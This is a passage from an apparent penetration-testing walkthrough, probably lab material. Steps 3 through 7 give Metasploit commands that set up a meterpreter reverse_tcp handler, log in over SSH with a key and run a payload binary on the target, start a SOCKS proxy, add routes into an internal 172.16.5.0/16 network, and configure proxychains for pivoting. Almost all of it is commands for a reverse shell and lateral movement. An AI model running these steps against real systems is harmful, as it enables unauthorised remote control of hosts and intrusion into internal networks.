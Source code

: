 ### Step 3: Set Up Handler
```bash
msfconsole -q
use exploit/multi/handler
set LHOST 0.0.0.0
set LPORT 9001
set PAYLOAD linux/x64/meterpreter/reverse_tcp
run
```

### Step 4: Execute Payload
```bash
# SSH to target
ssh -i id_rsa webadmin@TARGET_IP

# Execute payload
chmod +x 99c0b43c4bec2bdc280741d8f3e40338.elf
./99c0b43c4bec2bdc280741d8f3e40338.elf
```

### Step 5: Configure SOCKS Proxy
```bash
# Background meterpreter session
bg

# Set up SOCKS proxy
use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 0.0.0.0
set VERSION 4a
run
```

### Step 6: Add Routes
```bash
# Return to meterpreter session
sessions -i 1
run autoroute -s 172.16.5.0/16
```

### Step 7: Configure Proxychains (CRITICAL!)
**⚠️ IMPORTANT: Match SOCKS versions!**

Check MSF SOCKS version:
- If `VERSION 4a` → proxychains needs `socks4`
- If `VERSION 5` → proxychains needs `socks5`

Edit `/etc/proxychains.conf`:
```bash
sudo nano /etc/proxychains.conf

# For VERSION 4a:
socks4  127.0.0.1 9050

# For VERSION 5:
socks5  127.0.0.1 9050
```
